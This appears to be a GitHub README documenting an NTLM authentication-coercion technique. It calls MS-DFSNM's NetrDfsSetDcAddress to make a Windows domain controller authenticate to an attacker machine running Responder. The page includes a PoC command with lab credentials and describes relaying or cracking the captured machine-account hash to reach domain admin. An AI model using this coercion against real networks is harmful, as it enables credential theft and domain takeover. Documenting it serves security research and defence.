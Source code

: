 # MS-DFSNM - Remote call to NetrDfsSetDcAddress (opnum 17)

## Summary

 - **Protocol**: [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

 - **Protocol UUID**: 4fc742e0-4a10-11cf-8273-00aa004ae673

 - **Protocol version**: 3.0

 - **SMB Named pipe**: ``

 - **Function name**: [`NetrDfsSetDcAddress`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b185d10f-cd9b-4740-877d-5a8aa6342a89)

 - **Function operation number**: `17`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol (with uuid `4fc742e0-4a10-11cf-8273-00aa004ae673` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) and allows to call RPC functions of this protocol. We will then call the remote [`NetrDfsSetDcAddress`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b185d10f-cd9b-4740-877d-5a8aa6342a89) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrDfsSetDcAddress('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrDfsSetDcAddress(
   [in, string] WCHAR* ServerName,
   [in, string] WCHAR* DcName,
   [in] DWORD Timeout,
   [in] DWORD Flags
 );
```

## References

 - Documentation of protocol [MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979

 - Documentation of function `NetrDfsSetDcAddress`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b185d10f-cd9b-4740-877d-5a8aa6342a89